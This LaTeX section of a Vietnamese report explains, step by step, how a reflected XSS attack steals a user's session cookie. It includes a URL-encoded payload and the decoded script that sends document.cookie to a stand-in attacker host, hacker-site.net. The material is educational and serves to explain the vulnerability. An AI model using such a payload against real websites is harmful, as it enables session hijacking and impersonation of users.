 \documentclass[../main-report.tex]{subfiles}
\begin{document}
\begin{enumerate}
\item Người dùng đăng nhập web và giả sử được gán session với cookie định danh sau:

\begin{lstlisting}
Set-Cookie: sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4
\end{lstlisting}

\item Bằng cách nào đó, hacker gửi được cho người dùng URL:
 
\begin{lstlisting}
http://example.com/name=%3Cscript%3Evar+i%3Dnew+Image%3B+i.src%3D%E2%80%9Dhttp%3A%2F%2Fhacker-site.net%2F%E2%80%9D%2Bdocument.cookie%3B%3C%2Fscript%3E
\end{lstlisting}

Giả sử \textbf{example.com} là website nạn nhân truy cập, \textbf{hacker-site.net} là trang của hacker tạo ra.

\item Nạn nhân truy cập đến URL trên
\item Server phản hồi cho nạn nhân, kèm với dữ liệu có trong request (đoạn javascript của hacker)
\item Trình duyệt nạn nhân nhận phản hồi và thực thi đoạn javascript. Đoạn javascript mà hacker tạo ra thực tế như sau:

\begin{lstlisting}[language=HTML]
<script>var i=new Image; i.src="http://hacker-site.net/"+document.cookie;</script>
\end{lstlisting}

Dòng lệnh trên bản chất thực hiện request đến site của hacker với tham số là cookie người dùng:

\begin{lstlisting}
GET /sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4 HTTP/1.1
Host: hacker-site.net
\end{lstlisting}

\item Từ phía site của mình, hacker sẽ bắt được nội dung request trên và coi như session của người dùng đã bị chiếm. Đến lúc này, hacker có thể giả mạo với tư cách nạn nhân và thực hiện mọi quyền trên website mà nạn nhân có.
\end{enumerate}

Kịch bản khai thác trên được mô tả như hình \ref{fig:xss_reflect}.

\begin{figure}[ht!]
\centering\texttt{[image: xss-reflect]}
\caption{Kịch bản khai thác lỗ hổng Reflected \acrshort{xss}}
\label{fig:xss_reflect}
\end{figure}
\end{document}
